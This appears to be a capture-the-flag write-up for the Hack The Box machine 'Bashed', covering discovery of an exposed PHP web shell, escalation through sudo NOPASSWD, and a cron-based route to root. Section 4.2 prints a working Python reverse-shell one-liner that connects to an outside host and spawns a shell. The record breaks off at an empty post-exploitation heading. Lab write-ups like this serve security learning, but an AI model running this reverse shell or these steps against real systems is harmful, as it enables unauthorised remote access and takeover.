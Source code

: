 # 1.0 - HACK THE BOX: BASHED

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/026729e2-83a0-443d-a421-c2c83d2bd744)

**Vulnerability Explanation**: The web server has unintentionally exposed a php script in the /dev/ web directory that allows an unauthenticated user to remotely execute bash commands. Furthermore, the www-data user can run commands as the 'scriptmanager' user without needing a password which created a path for privilege escalation to that user and then to the 'root' user via a misconfigured cron job. 

**Vulnerability Fix**: Restrict access to the /dev/ web directory and remove the phpbash.php script. Additionally, require a password when performing sudo commands as the www-data user. 

**Severity**: Critical.

**Steps to reproduce the attack**: Enumeration was undertaken using NMAP which discovered the web server running on port 80. Web directories were then scanned using dirbuster which exposed the /dev/ directory and the .php scripts; navigating to this on a browser results in a web shell. Privilege escalation was then performed by taking advantage of the NOPASSWD value set for sudo commands on the www-data user by moving to the scriptmanager user shell. Escalation to the root user was then performed by editing a script to copy the /bin/bash binary to a new location with the setuid bit set.

## 2.0 - ENUMERATION
| **IP ADDRESS** | **OPEN PORTS** |
|----------|--------------------|
| 10.10.10.68 | TCP: 80 |

#### **2.1 - NMAP**

Port 80 was discovered using NMAP:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/7fce3128-5737-4b70-814e-04687c2fcc44)

#### **2.2 - nikto**

A vulnerability scan was performed using nikto which flagged a number of interesting directories including other issues which were not explored during this test. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d5e3d5a4-9258-4e91-89f0-da1272b204e1)

#### **2.3 - dirbuster** 

With the nikto scan in mind a dirbuster scan was performed to brute-force web directories which exposed the phpbash.php web shell script. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/b6691ce0-57ad-46d1-8118-36b82e586362)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/2401dd5f-e8b1-40fc-a17d-83af0ef68d10)


## 3.0 - EXPLOITATION

#### **3.1 - Accessing the Web Shell**

Exploitation was simple, by navigating to the /dev/phpbash.php web directory we could get web shell as the www-data user. From here we have full access to the web server. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/d0abe153-d486-49d6-87a5-b2e604702ba5)

## 4.0 - PRIVILEGE ESCALATION 

#### **4.1 - sudo -l**

As the www-data user when performing the sudo -l command we can see that commands can be run as the 'scriptmanager' user without the need for a password. 

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/9564681b-0d11-40ce-8122-5749605bd2a1)
![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/34411839-1474-4a87-ab6e-11a972f1b889)

#### **4.2 - reverse shell**

Because we can run commands as scriptmanagr a reverse shell was created using python which allowed our first privilege escalation to the scriptmanager user itself. 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.0",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Catching the reverse shell and checking the user id we can see it was sucsessful:

![image](https://github.com/Gladoodles/hackthebox_machines/assets/96867367/6ee34a27-8da2-4132-ba2b-9d16912b551c)

## 5.0 - POST-EXPLOITATION 
